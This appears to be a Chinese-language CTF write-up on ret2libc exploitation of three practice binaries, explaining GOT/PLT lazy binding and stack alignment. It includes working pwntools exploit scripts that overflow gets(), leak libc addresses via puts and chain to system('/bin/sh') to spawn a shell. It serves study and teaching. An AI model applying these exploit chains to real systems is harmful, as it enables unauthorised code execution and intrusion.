










# ret2libc1


ret2libc 即控制函数的执行 libc 中的函数，在一个程序中存在栈溢出覆盖返回地址漏洞，虽然无法本程序内没有调用system("/bin/sh")的函数，但是如果该函数包含了一些动态链接库，有些动态链接库包含了system()函数，此时就可以将返回地址覆盖为system()函数地址。


发现一个_system的动态链接库，调用了system()函数，不过需要传递参数




system函数地址为




借助工具寻找"/bin/sh"字符串


## 构造payload

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2libc1')

payload = b"A" * 112 + p32(0x08048460) + b"A" * 4 + p32(0x08048720) 

sh.sendline(payload)
sh.interactive()
```


# ret2lib2

该题目与例 1 基本一致，只不过不再出现 /bin/sh 字符串，所以此次需要我们自己来读取字符串，所以我们需要两个 gadgets，第一个控制程序读取字符串，第二个控制程序执行 system("/bin/sh")。


1. mian函数执行完毕后，esp在gets函数地址，所以ret跳转到gets函数地址
2. 跳转到gets函数后，esp在pop ebp ret地址，第一个参数为      esp+1 也就是字符串地址
3. gets执行完毕后，esp在pop ebp ret地址，ret跳转到pop ebp ret
4. 跳转到pop ebp ret后，esp在字符串存放地址
5. 如果没有pop ebp，就进行ret跳转则会跳转到字符串存放地址
6. 执行pop ebp后，esp在system函数地址，此时在执行ret就可以进入system函数了
7. 进入system函数后，esp为 返回地址无要求，参数为 esp + 1 字符串存放地址
8. 从字符串存放地址读取/bin/sh，在执行system函数后，就获得shel权限了


## 构造payload

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2libc2')


gets_addr = p32(0x08048460)

system_addr = p32(0x08048490)

string_addr = p32(0x0804a00c)

payload = b"A" * 112 + gets_addr + p32(0x0804872f) + string_addr + system_addr + p32(0x00) + string_addr

sh.sendline(payload)


sh.sendline("/bin/sh")

sh.interactive()
```


# ret2lib3

由于该程序使用的是动态链接，所以直接使用IDA已经找不到system函数了，也找不到"/bin/sh"字符串。


而动态链接依靠两个表，分别是GOT表和PLT表


# 延迟绑定技术以及GOT和PLT表的详细介绍

## 引言

在计算机科学中，动态链接是一种在运行时将预编译的可执行代码（例如函数或模块）与主程序（调用代码）链接的过程。

在Linux系统中，动态链接主要依赖于两个重要的数据结构：全局偏移量表（GOT）和程序链接表（PLT）。这两个表在程序的运行时解析过程中起着至关重要的作用。


## 全局偏移量表（GOT）

全局偏移量表（GOT）是一个在程序的数据段中的表，它存储了程序中所有需要动态链接的函数和变量的地址。当程序第一次调用一个动态链接的函数时，动态链接器会查找该函数在动态链接库中的地址，然后将这个地址存储在GOT表中的相应条目中。这样，当程序再次调用这个函数时，它就可以直接从GOT表中获取这个函数的地址，而不需要再次进行查找。


## 程序链接表（PLT）

程序链接表（PLT）是一个在程序的代码段中的表，它包含了一系列的跳转指令，这些指令用于跳转到GOT表中的相应条目。当程序需要调用一个动态链接的函数时，它会首先跳转到PLT表中的相应条目，然后通过这个条目跳转到GOT表中的相应条目，最后跳转到这个函数在动态链接库中的实际地址。


## 延迟绑定

延迟绑定（也被称为惰性绑定）是一种优化技术，它可以延迟函数地址的解析过程，直到这个函数被实际调用为止。这种技术可以减少程序启动时的开销，并且可以使程序只解析那些实际需要的函数的地址。


在使用延迟绑定时，程序中的call指令会跳转到对应的PLT表项，然后PLT表项的第一条指令会跳转到GOT表中存放的地址。


### 第一次调用函数

1. 在第一次调用函数时，程序会call到对应的plt表。
2. plt表的第一条语句时，跳转到got表中存放的地址处，由于got表最初存放的地址为plt表第二条语句的首地址，所以相当于，plt表的第一条语句是跳转到plt表的第二条语句。
3. plt表的第二条语句是，将动态链接函数对应的标识，pushl到栈中，然后执行下一条语句。
4. plt表的第三条语句是跳转到plt[0]表。
5. plt[0]的第一条语句是将got[1]表的内容pushl到栈中，然后执行第二条语句。
6. plt[0]的第二条语句是跳转到got[2]表中存放地址的位置。
7. got[2]表存放的地址是，动态链接器延迟绑定代码的入口地址。
8. 动态链接器延迟绑定代码会，找到动态链接库中函数在内存中的地址，将地址保存到对应的got表中，然后跳转到该函数中执行函数


### 第二次调用函数

1. 在第一次调用函数时，程序会call到对应的plt表。
2. plt表的第一条语句时，跳转到got表中存放的地址处，由于got表地址已经被修改为了函数地址，所以plt的第一条语句执行后就跳转到了函数中，开始执行函数了


## got表泄露


### 获取got表



此程序使用了gets函数，存在栈溢出漏洞，可以通过栈溢出覆盖返回地址调用puts函数输出got表内容。通过上面的了解我们直到，如果要使用puts函数，那么就需要call指令跳转到puts对应的plt表的首地址。


查看plt表`objdump --disassemble --full-contents --section=.plt ret2libc3`

找到plt表中puts函数的首地址，调用的puts函数需要跳转到puts函数对应的plt表，输出puts函数在内存中的地址，需要指向puts对应的got表。

注：puts函数在内存中的位置是会变化的，但是plt表是不会发生改变的。




构造输出payload

```python
plt_puts_addr = p32(binary.plt.puts)  # plt表 调用puts函数
got_puts_addr = p32(binary.got.puts)  # got表 输出puts函数

pop_epb_ret = p32(0x080486ff) # 多次跳转需要


payload = b"A" * 112  #填充直覆盖到返回值前
payload += plt_puts_addr + pop_epb_ret + got_puts_addr
```


同理，我们至少需要得到两个函数的地址才能判断libc版本，越多越好

```python
from pwn import *

binary = ELF("./ret2libc3",checksec=False)
context.log_level = "debug"

plt_puts_addr = p32(binary.plt.puts)

got_puts_addr = p32(binary.got.puts)
got_gets_addr = p32(binary.got.gets)
got_setvbuf_addr = p32(binary.got.setvbuf)

payload = b"A" * 112 

payload += plt_puts_addr + pop_epb_ret + got_puts_addr 
payload += plt_puts_addr + pop_epb_ret + got_gets_addr
payload += plt_puts_addr + pop_epb_ret + got_setvbuf_addr

sh.sendline(payload)

output = sh.recvall()
output = output.split(b'?')[1].split(b'\n')

puts = u32(output[0][0:4])
gets = u32(output[1][0:4])
setvbuf = u32(output[2][0:4])

print(hex(puts))
print(hex(gets))
print(hex(setvbuf))

sh.interactive()
```


输出结果

```
第一次运行结果
puts地址:		0xf7de5f10
gets地址:		0xf7de5680
setvbuf地址:	0xf7de65d0

第二次运行结果
puts地址:		0xf7d9cf10
gets地址:		0xf7d9c680
setvbuf地址:	0xf7d9d5d0

第三次运行结果
puts地址:		0xf7e08f10
gets地址:		0xf7e08680
setvbuf地址:	0xf7e095d0
```


注意：由于c语言字符串以0结尾，如果地址是`0xff001c5b`等类型的， puts函数输出`0xff`后遇到0就会停止输出，这种情况多运行几次就可以了


通过比对三次的运行结果，可以发现由于操作系统开启了随机地址保护，每次的地址都是不懂得，但是可以发现最低12位是不会发生变化的，此时就可以借助工具来寻找libc的版本




于是就可以构造payload

```python
#!/usr/bin/env python
from pwn import *

binary = ELF("./ret2libc3",checksec=False)
context.log_level = "debug"

sh = process('./ret2libc3')

main_addr = p32(binary.symbols.main)

pop_epb_ret = p32(0x080486ff)

plt_puts_addr = p32(binary.plt.puts)

got_puts_addr = p32(binary.got.puts)
got_gets_addr = p32(binary.got.gets)
got_setvbuf_addr = p32(binary.got.setvbuf)

payload = b"A" * 112 

payload += plt_puts_addr + pop_epb_ret + got_puts_addr 
payload += plt_puts_addr + pop_epb_ret + got_gets_addr
payload += plt_puts_addr + pop_epb_ret + got_setvbuf_addr
payload += main_addr   #修改部分payload，在最后返回到main函数，再次进行gets输入栈溢出漏洞跳转到system函数

sh.sendline(payload)

output = sh.recvn(140)  
#这里使用recvn函数   只读取140字节就停止读取
#如果这里使用recvall会持续读取直到遇到EOF字符，但是由于我们最后右跳转到了main函数，又开始gets从键盘中读取内容了，所以不会产生EOF字符，如果不读取140字符后就停止读取，那么就会一直卡在这里无法继续进行


output = output.split(b'?')[1].split(b'\n')

puts = u32(output[0][0:4])
gets = u32(output[1][0:4])
setvbuf = u32(output[2][0:4])

print(hex(puts))
print(hex(gets))
print(hex(setvbuf))

system_addr = p32(gets - 0x2bc70)
bin_sh_addr = p32(gets + 0xe815b)


#构造第二次输入的payload

system_addr = p32(gets - 0x2bc70)  #system函数地址
bin_sh_addr = p32(gets + 0xe815b)  #"/bin/sh字符串地址"

payload = b"A" * 104   #这里为什么是104而不是112在下面讨论

payload += system_addr + pop_epb_ret + bin_sh_addr

sh.sendline(payload)

sh.interactive()
```


执行成功




现在解释为什么第一次填充的数据是112，而第二次填充的数据只有104


首先获取main函数第一次运行时的esp寄存器内容,添加main函数第一条汇编指令的断点




start运行后，info registers查看寄存器内容，esp为0xffffd50c




程序刚开始运行时，esp为0xfffff50c，push ebp后，esp为0xffffd508，16对齐浪费了8字节，最后差距112字节




函数地址输出完毕后，又回到了main函数，此时esp指向0xffffd554


第二次执行main函数时esp为0xffffd554，执行完push ebp后为0xffff550，此时已经为16字节对齐了，所以第二次执行main函数没有浪费字节，而第一次执行main函数浪费了8字节，所以第一次需要填充112字节，而这次只要填充112-8=104字节



